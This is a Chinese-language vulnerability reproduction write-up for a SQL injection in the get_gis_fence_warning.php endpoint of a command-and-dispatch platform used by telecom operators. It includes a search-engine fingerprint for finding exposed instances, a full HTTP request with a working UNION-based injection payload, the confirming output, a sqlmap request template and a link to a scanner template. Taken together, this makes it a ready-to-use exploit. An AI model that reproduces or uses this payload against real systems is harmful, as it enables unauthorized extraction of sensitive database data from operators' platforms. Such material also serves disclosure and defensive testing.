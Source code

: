 # 指挥调度平台get_gis_fence_warning存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台get_gis_fence_warning存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/BGHJmd0Vs536cinb/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-858315.png)

# 四、漏洞复现
```plain
POST /api/client/get_gis_fence_warning.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=7d1e1db182a16e0508fda0961e9a0f6d
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 138

usernumber=1' UNION ALL SELECT NULL,NULL,CONCAT(0x7162707a71,IFNULL(CAST(111*111 AS CHAR),0x20),0x7162707671),NULL,NULL,NULL,NULL,NULL-- -
```

![1705368432160-49c93ef1-c200-4953-984d-7ebffe2c4705.png](./img/BGHJmd0Vs536cinb/1705368432160-49c93ef1-c200-4953-984d-7ebffe2c4705-770391.png)

```plain
qbpzq12321qbpvq
```

sqlmap

```plain
POST /api/client/get_gis_fence_warning.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=7d1e1db182a16e0508fda0961e9a0f6d
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 138

usernumber=1
```

![1705368573688-a697002f-062d-4ea4-88d1-c7e68407ba75.png](./img/BGHJmd0Vs536cinb/1705368573688-a697002f-062d-4ea4-88d1-c7e68407ba75-867695.png)

[福建科立讯通信-指挥调度平台-get-gis-fence-warning-sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222143857-625cde56-ac55-4d9f-83ab-c5df6957533e.yaml)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/arehbbh2c0r4whc1>